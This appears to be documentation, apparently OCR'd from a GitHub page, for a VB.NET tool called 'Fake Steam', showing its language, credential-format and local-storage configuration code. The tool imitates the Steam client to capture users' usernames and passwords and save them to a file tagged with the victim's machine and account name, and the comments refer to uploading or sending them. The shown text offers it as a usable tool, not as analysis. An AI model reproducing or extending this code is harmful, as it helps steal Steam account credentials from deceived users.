 Language settings:

    #Region " Steam Interface Configuration "

        ''' <summary>
        ''' The default steam interface language.
        ''' Use this for testing purposses
        ''' </summary>
        Public Shared ReadOnly DefaultSteamLanguage As New CultureInfo("en-US")

        ''' <summary>
        ''' If set to <c>True</c>, overrides the default steam interface language instead of detect the proper language.
        ''' Use this for testing purposses
        ''' </summary>
        Public Shared ReadOnly UseDefaultSteamLanguage As Boolean = False

    #End Region

Note: The names of the available cultures are specified in the **DetectLanguage** method of the **SteamHelper** class.

Username/password settings:

    #Region " Username and Password Configuration "

        ''' <summary>
        ''' The string format to write/upload/send the captured username/password.
        ''' </summary>
        Public Shared ReadOnly UserPassTextFormat As String =
	        <a><![CDATA[
	            Username={0}
	            Password={1}
	        ]]></a>.Value

    #End Region

Local storage settings:

    #Region " Local Storage Configuration "

        ''' <summary>
        ''' If set to <c>True</c>, enables local storage of the username/password.
        ''' </summary>
        Public Shared ReadOnly EnableLocalStorage As Boolean = True

        ''' <summary>
        ''' The local directory where to write the file.
        ''' If the directory doesn't exists, it will try to create it.
        ''' </summary>
        Public Shared ReadOnly LocalDir As String =
            Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData), " Fake Steam")

        ''' <summary>
        ''' The file name to store the data on the local directory.
        ''' By default is "FakeSteam_{ComputerName}_{Username}_{Day}-{Month}-{Year}_{Hour}-{Minute}-{Seconds}.txt"
        ''' </summary>
        Public Shared ReadOnly LocalFilenameFormat As String =
            String.Format("FakeSteam_{0}_{1}_{2}.txt", Environment.MachineName, Environment.UserName, DateTime.Now.ToString("dd-MM-yyyy\_hh-mm-ss"))

